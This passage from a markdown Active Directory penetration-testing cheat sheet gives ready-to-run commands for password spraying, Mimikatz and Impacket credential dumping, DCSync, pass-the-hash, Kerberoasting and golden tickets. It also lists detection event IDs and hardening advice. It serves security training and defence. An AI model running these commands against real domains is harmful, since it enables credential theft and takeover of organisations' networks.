   ├── Remove sensitive accounts (avoid admin accounts)
   └── Remove recently locked accounts

4. Select password candidates
   ├── Seasonal (Summer2024!, Winter2024!)
   ├── Company-related (CompanyName2024!)
   ├── Common defaults (Password1!, Welcome1!)
   └── Previously compromised passwords

5. Execute spray with delays
   └── 1 password per lockout period
   └── Delay between accounts

6. Monitor for success
   └── Stop when credentials found
```

**Getting Password Policy:**

```bash
# Using enum4linux
enum4linux -P <target-ip>

# Using CrackMapExec
crackmapexec smb <target-ip> --pass-pol

# Using RPCClient
rpcclient -U "" -N <target-ip>
> getdompwinfo

# Using ldapsearch
ldapsearch -x -h <target-ip> -s base -b '' "(objectclass=*)" *
```

**Password Policy Information:**

```
Key Metrics:
├── Lockout Threshold: How many failed attempts before lockout
├── Lockout Duration: How long account stays locked
├── Lockout Window: Time window for counting failed attempts
└── Password Complexity: Requirements for passwords

Example Safe Strategy:
Password Policy: 5 attempts, 30 minute lockout
Safe Strategy: 3 attempts per account, 40 minute delays
```

**Common Password Patterns:**

```
Seasonal:
├── Spring2024!
├── Summer2024!
├── Fall2024!
└── Winter2024!

Month-Year:
├── January2024!
├── December2024!
└── [CurrentMonth][Year]!

Company-Based:
├── CompanyName1!
├── CompanyName2024!
└── Company@123

Default Patterns:
├── Password1!
├── Welcome1!
├── Admin@123
└── P@ssw0rd!
```

**Detection:**

Monitor Event ID 4625 (Failed Logon) for:
- Multiple failures for different accounts from same IP
- Failures spread across many accounts
- Similar timing patterns
- Common password patterns in logs

**Mitigation:**

```
1. Implement account lockout policies
2. Monitor for distributed failures
3. Require strong, complex passwords
4. Multi-factor authentication
5. Anomaly detection on authentication attempts
6. Regular password audits
7. User education on password selection
```



---

## Post-Exploitation

After gaining initial access or escalating privileges, post-exploitation focuses on credential harvesting, lateral movement, and persistence.

### Credential Dumping with Mimikatz

**Mimikatz** is the most well-known credential dumping tool for Windows.

**Core Concepts:**

```
Windows Credential Storage:
├── LSASS Process (lsass.exe)
│   ├── Plaintext passwords (WDigest)
│   ├── NTLM hashes
│   ├── Kerberos tickets
│   └── Cached credentials
├── Security Account Manager (SAM)
│   └── Local account hashes
├── LSA Secrets
│   └── Service account passwords
└── Credential Manager
    └── Saved credentials
```

**Basic Mimikatz Commands:**

```powershell
# Start Mimikatz
.\mimikatz.exe

# Enable SeDebugPrivilege (required)
privilege::debug

# Dump all credentials from LSASS
sekurlsa::logonpasswords

# Specific credential types:
sekurlsa::msv          # NTLM hashes
sekurlsa::wdigest      # Plaintext passwords (if enabled)
sekurlsa::kerberos     # Kerberos tickets
sekurlsa::tspkg        # TS/RDP credentials
sekurlsa::credman      # Credential Manager

# Export all Kerberos tickets
sekurlsa::tickets /export

# Dump local SAM hashes
lsadump::sam

# Dump cached domain credentials
lsadump::cache

# Dump LSA secrets
lsadump::secrets

# DCSync attack (requires replication rights)
lsadump::dcsync /domain:<domain> /all /csv
lsadump::dcsync /domain:<domain> /user:krbtgt
lsadump::dcsync /domain:<domain> /user:Administrator
```

**DCSync Attack Deep Dive:**

DCSync mimics a Domain Controller and requests password data from another DC using Directory Replication Service (DRS).

**Requirements:**
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

**Default groups with these rights:**
- Domain Admins
- Enterprise Admins
- Administrators
- Domain Controllers

```powershell
# DCSync single user
mimikatz # lsadump::dcsync /user:Administrator

# DCSync all users
mimikatz # lsadump::dcsync /domain:contoso.com /all /csv > dcsync.txt

# DCSync krbtgt (for golden ticket)
mimikatz # lsadump::dcsync /user:krbtgt

# DCSync with specific DC
mimikatz # lsadump::dcsync /user:Administrator /dc:dc01.contoso.com
```

**Detection:**

DCSync triggers Event ID 4662 with:
- Object Type: `{19195a5b-6da0-11d0-afd3-00c04fd930c9}` (Domain object)
- Access: Read Property
- Properties: `{1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}` (Replicating Directory Changes)

### Credential Dumping with Impacket

**Impacket secretsdump** is the Linux equivalent for credential extraction.

```bash
# Remote dump using credentials
impacket-secretsdump <domain>/<username>:<password>@<target>

# Using NTLM hash
impacket-secretsdump <domain>/<username>@<target> -hashes :<ntlm_hash>

# Dump only NTLM hashes
impacket-secretsdump <domain>/<username>:<password>@<target> -just-dc-ntlm

# Dump only krbtgt
impacket-secretsdump <domain>/<username>:<password>@<target> -just-dc-user krbtgt

# Dump from NTDS.dit (offline)
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL

# Output to file
impacket-secretsdump <domain>/<username>:<password>@<target> -outputfile hashes.txt
```

**Output Format:**

```
username:RID:LM_hash:NTLM_hash:::

Examples:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a12b56c7d890e4f12a34cd5ef6789abc:::
```

**Using Dumped Credentials:**

```bash
# Pass-the-Hash with psexec
impacket-psexec <domain>/<username>@<target> -hashes :<ntlm_hash>

# Pass-the-Hash with wmiexec
impacket-wmiexec <domain>/<username>@<target> -hashes :<ntlm_hash>

# Pass-the-Hash with smbexec
impacket-smbexec <domain>/<username>@<target> -hashes :<ntlm_hash>
```

### BloodHound - Active Directory Relationship Mapping

**BloodHound** visualizes Active Directory relationships to find attack paths.

**What BloodHound Reveals:**

```
Relationships:
├── Who can RDP to what computers
├── Who has admin rights where
├── Shortest path to Domain Admin
├── Group memberships and nesting
├── GPO relationships
├── Trust relationships
└── Kerberos delegation paths
```

**SharpHound Collection (Windows):**

```powershell
# Download SharpHound
# From: https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

# Collect all data
.\SharpHound.exe -c All

# Stealth collection (slower, less noisy)
.\SharpHound.exe -c All --Stealth

# Specific collections
.\SharpHound.exe -c Session,Group,LocalAdmin
.\SharpHound.exe -c DCOnly  # Domain info only, no sessions

# Exclude specific DCs (for stealth)
.\SharpHound.exe -c All --ExcludeDCs

# Custom domain
.\SharpHound.exe -c All -d contoso.com

# Output location
.\SharpHound.exe -c All --OutputDirectory C:\Temp

# Loop collection (sessions change frequently)
.\SharpHound.exe -c Session --Loop --LoopDuration 01:00:00
```

**BloodHound Python (Linux):**

```bash
# Install
pip install bloodhound

# Basic collection
bloodhound-python -u <username> -p <password> -ns <dc-ip> -d <domain> -c All

# With NTLM hash
bloodhound-python -u <username> --hashes :<ntlm_hash> -ns <dc-ip> -d <domain> -c All

# Stealth collection
bloodhound-python -u <username> -p <password> -ns <dc-ip> -d <domain> -c All --stealth

# Specific collections
bloodhound-python -u <username> -p <password> -ns <dc-ip> -d <domain> -c Group,LocalAdmin

# Output directory
bloodhound-python -u <username> -p <password> -ns <dc-ip> -d <domain> -c All --outputdir /tmp/bhout
```

**Starting BloodHound:**

```bash
# Start Neo4j database
sudo neo4j console

# Access Neo4j browser
# http://localhost:7474
# Default creds: neo4j/neo4j (change on first login)

# Start BloodHound GUI
bloodhound

# Import collected data
# Drag and drop ZIP files into BloodHound GUI
```

**Useful BloodHound Queries:**

```
Pre-built Queries:
├── Find all Domain Admins
├── Find Shortest Paths to Domain Admins
├── Find Principals with DCSync Rights
├── Find Computers where Domain Users are Local Admin
├── Find Computers with Unconstrained Delegation
├── Find all users with SPN set (Kerberoastable)
├── Find users with AS-REP Roasting enabled
└── Find shortest path to High Value Targets

Custom Cypher Queries:

// Find users with path to Domain Admins
MATCH p=shortestPath((u:User)-[*1..]->(g:Group))
WHERE g.name = "DOMAIN ADMINS@CONTOSO.COM"
RETURN p

// Find computers with unconstrained delegation
MATCH (c:Computer {unconstraineddelegation:true})
RETURN c.name

// Find Kerberoastable users
MATCH (u:User) WHERE u.hasspn=true
RETURN u.name, u.serviceprincipalnames

// Find users with DCSync rights
MATCH p=(u)-[:MemberOf|GetChanges|GetChangesAll*1..]->(d:Domain)
RETURN u.name
```



### Pass-the-Hash

**Theory:**

Pass-the-Hash (PtH) is an attack that uses NTLM hashes instead of plaintext passwords for authentication. In Windows, the NTLM hash is mathematically equivalent to the password for authentication purposes.

**Using Impacket:**

```bash
# PSExec with hash
impacket-psexec <domain>/<username>@<target> -hashes :<ntlm_hash>

# WMIExec with hash (stealthier)
impacket-wmiexec <domain>/<username>@<target> -hashes :<ntlm_hash>

# SMBExec with hash
impacket-smbexec <domain>/<username>@<target> -hashes :<ntlm_hash>

# Access SMB shares
impacket-smbclient <domain>/<username>@<target> -hashes :<ntlm_hash>
```

**Using CrackMapExec:**

```bash
# Check access with hash
crackmapexec smb <target> -u <username> -H <ntlm_hash>

# Command execution
crackmapexec smb <target> -u <username> -H <ntlm_hash> -x "whoami"

# Dump SAM with hash
crackmapexec smb <target> -u <username> -H <ntlm_hash> --sam

# Multiple targets
crackmapexec smb targets.txt -u <username> -H <ntlm_hash>
```



---

## Defense & Detection

### Monitoring and Logging

**Critical Event IDs:**

**Authentication Events:**

```
4768 - Kerberos TGT Request (AS-REQ)
├── Success = 0x0
├── User doesn't exist = 0x6
├── Pre-auth failed = 0x18
└── Disabled/Expired = 0x12

Monitor for:
├── Multiple 0x18 (password spray)
├── 0x6 (username enumeration)
└── Pre-auth type 0 (AS-REP roasting)

4769 - Kerberos Service Ticket Request (TGS-REQ)
├── Encryption type (RC4 vs AES)
├── Multiple requests = Kerberoasting
└── Service name patterns

4771 - Kerberos Pre-authentication Failed
├── Multiple = Brute force
├── From multiple IPs = Distributed attack
└── Multiple accounts = Password spray

4776 - Domain Controller Authentication Attempt
├── NTLM authentication
├── Monitor for NTLM when Kerberos expected
└── Possible Pass-the-Hash

4672 - Special Privileges Assigned to New Logon
├── Admin account usage
├── Unusual times or locations
└── Service accounts with interactive logon
```

**Account Management:**

```
4720 - User Account Created
4722 - User Account Enabled
4724 - Password Reset Attempt
4725 - User Account Disabled
4732 - Member Added to Security-Enabled Group
4733 - Member Removed from Security-Enabled Group
4740 - User Account Locked Out
```

**Object Access:**

```
4662 - Operation Performed on Object
├── DCSync detection
├── AdminSDHolder modifications
└── GPO changes

5136 - Directory Service Object Modified
├── ACL changes
├── Sensitive attribute changes
└── Trust modifications
```

### Hardening Best Practices

**Account Hardening:**

```
User Accounts:
├── Strong password policy (>14 characters, complexity)
├── Password history (24 passwords remembered)
├── Maximum password age (60-90 days)
├── Account lockout threshold (5 attempts)
├── Account lockout duration (30 minutes)
└── Reset lockout counter (30 minutes)

Service Accounts:
├── Group Managed Service Accounts (gMSA)
│   └── 120-character auto-generated password
│   └── Automatic 30-day rotation
├── Dedicated service account per service
├── Least privilege principle
├── No interactive logon rights
└── Monitor for suspicious usage

Administrative Accounts:
├── Separate from regular user accounts
├── "admin-username" naming convention
├── Smart card authentication required
├── Short password expiration
├── No email or internet access
└── Use only from PAWs
```

**LAPS (Local Administrator Password Solution):**

```
Purpose:
└── Unique local admin password per machine
└── Auto-rotation (default: 30 days)
└── Stored in AD with ACLs
└── Defeats Pass-the-Hash lateral movement

Implementation:
1. Install LAPS on domain
2. Extend AD schema
3. Deploy LAPS GPO
4. Install LAPS client on machines
5. Set password rotation policy

Result:
└── Each machine has unique local admin password
└── Pass-the-Hash on one machine doesn't work on others
```

---

## Theory and Concepts

### Understanding NTLM vs NTLMv2

**NTLM (NT LAN Manager):**

```
Hash Generation:
Password → MD4 hash → NTLM hash

Authentication:
1. Client sends username
2. Server sends 8-byte challenge
3. Client encrypts challenge with NTLM hash (DES)
4. Client sends response
5. Server validates

Security Issues:
├── Weak DES encryption
├── No salt (precomputation attacks)
├── Pass-the-Hash possible
└── Relay attacks possible
```

**NTLMv2:**

```
Hash Generation:
Username + Domain + NTLM hash → HMAC-MD5 → NTLMv2 hash

Authentication:
1. Client sends username
2. Server sends 8-byte challenge
3. Client creates client challenge (blob with timestamp)
4. Client computes NTLMv2 response
5. Server validates with more complexity

Improvements:
├── Stronger cryptography (HMAC-MD5)
├── Client challenge prevents precomputation
├── Timestamp prevents replay
└── Still vulnerable to relay attacks
```

---

## Quick Reference Commands

### Enumeration Cheat Sheet

```bash
# === Network Discovery ===
nmap -p 53,88,135,139,389,445,464,636,3268,3269 <target-ip>

# === SMB Enumeration ===
enum4linux -a <target-ip>
smbclient -L //<target-ip>/ -N
crackmapexec smb <target-ip> -u '' -p '' --shares

# === LDAP Enumeration ===
ldapsearch -x -h <target-ip> -b "DC=domain,DC=local" "objectClass=user"

# === Kerberos Enumeration ===
./kerbrute userenum --dc <dc-ip> -d <domain> users.txt
```

### Kerberos Attack Cheat Sheet

```bash
# === AS-REP Roasting ===
impacket-GetNPUsers <domain>/ -usersfile users.txt -dc-ip <dc-ip> -format hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt

# === Kerberoasting ===
impacket-GetUserSPNs <domain>/<username>:<password> -dc-ip <dc-ip> -request
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt

# === Golden Ticket ===
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <sid> -domain <domain> Administrator
export KRB5CCNAME=Administrator.ccache
impacket-psexec <domain>/Administrator@<target> -k -no-pass
```

### Post-Exploitation Cheat Sheet

```bash
# === Credential Dumping ===
impacket-secretsdump <domain>/<username>:<password>@<target>

# === Pass-the-Hash ===
impacket-psexec <domain>/<username>@<target> -hashes :<ntlm_hash>

# === BloodHound ===
bloodhound-python -u <username> -p <password> -ns <dc-ip> -d <domain> -c All
```

---

## Tools Reference

### Essential Tools List

**Impacket Suite:**
- GetNPUsers.py - AS-REP Roasting
- GetUserSPNs.py - Kerberoasting
- secretsdump.py - Credential dumping
- psexec.py - Remote execution

**Mimikatz:**
- sekurlsa - Credential extraction
- lsadump - DCSync, SAM dumping
- kerberos - Ticket manipulation

**BloodHound:**
- Visualize AD relationships
- Find attack paths
- Identify misconfigurations

**CrackMapExec:**
- Multi-protocol enumeration
- Password spraying
- Lateral movement

---

## Additional Resources

### Official Documentation

**Microsoft:**
- Active Directory Domain Services Overview
- Kerberos Authentication Technical Reference
- Security Best Practices

**Security Research:**
- BloodHound GitHub
- HarmJ0y’s Blog (Kerberoasting)
- Sean Metcalf’s ADSecurity Blog
- MITRE ATT&CK Framework

### Practice Environments

- TryHackMe AD Rooms
- HackTheBox Active Directory Labs
- GOAD (Game of Active Directory)
- DetectionLab

### References

- https://www.youtube.com/watch?v=7xOUsirYLYU
- https://www.youtube.com/watch?v=85-bp7XxWDQ
- https://tryhackme.com/room/winadbasics
- https://www.youtube.com/watch?v=gY_9Dncjw-s&list=PLT08J44ErMmb9qaEeTYl5diQW6jWVHCR2
- https://www.youtube.com/watch?v=sdvG_AajKeM&list=PLW7Uff4NY2n_CjTROvY_lxHrfYYZf8sY_

---

## Port Reference Table

| Port | Service | Purpose | Attack Use |
| --- | --- | --- | --- |
| 53 | DNS | Name resolution | Domain enumeration |
| 88 | Kerberos | Authentication | AS-REP, Kerberoasting |
| 135 | RPC | Remote calls | Enumeration |
| 389 | LDAP | Directory queries | AD enumeration |
| 445 | SMB | File sharing | Lateral movement |
| 636 | LDAPS | Secure LDAP | Encrypted queries |
| 3268 | GC | Global Catalog | Forest searches |
| 3389 | RDP | Remote Desktop | Remote access |
| 5985 | WinRM | Remote Management | PowerShell remoting |

---

*Images featured on this cheatsheet belong to their respective copyright holders. Used for illustrative purposes only.*
*This cheat sheet is designed for authorized security testing and educational purposes only. Always obtain proper authorization before testing any systems.*